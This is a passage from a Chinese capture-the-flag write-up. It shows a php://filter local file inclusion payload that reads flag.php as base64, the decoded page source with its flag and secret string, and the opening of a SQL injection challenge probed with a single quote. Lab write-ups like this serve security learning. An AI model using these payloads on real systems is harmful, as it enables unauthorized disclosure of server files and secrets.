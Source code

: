 ```cobol
secr3t.php?file=php://filter/read=convert.base64-encode/resource=flag.php
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/8425dcf3988e50b2af3f3d58bcbbbc57.png" alt="" style="max-height:575px; box-sizing:content-box;" />




返回数值 然后进行解密

```cobol
<!DOCTYPE html>
 
<html>
 
    <head>
        <meta charset="utf-8">
        <title>FLAG</title>
    </head>
 
    <body style="background-color:black;"><br><br><br><br><br><br>
        
        <h1 style="font-family:verdana;color:red;text-align:center;">啊哈！你找到我了！可是你看不到我QAQ~~~</h1><br><br><br>
        
        <p style="font-family:arial;color:red;font-size:20px;text-align:center;">
            <?php
                echo "我就在这里";
                $flag = 'flag{48aa1a90-6ce2-4b9c-8e07-1c71d8361cda}';
                $secret = 'jiAng_Luyuan_w4nts_a_g1rIfri3nd'
            ?>
        </p>
    </body>
 
</html>
```

得到flag

### [极客大挑战 2019]LoveSQL

打开环境



<img src="https://i-blog.csdnimg.cn/blog_migrate/fe246129f394c51fe8132c468e22066f.png" alt="" style="max-height:582px; box-sizing:content-box;" />


我们查看什么类型的注入



<img src="https://i-blog.csdnimg.cn/blog_migrate/011f4041416a4401d3edcec7a87dd2f3.png" alt="" style="max-height:289px; box-sizing:content-box;" />


输入1' 得到反馈 是字符型注入
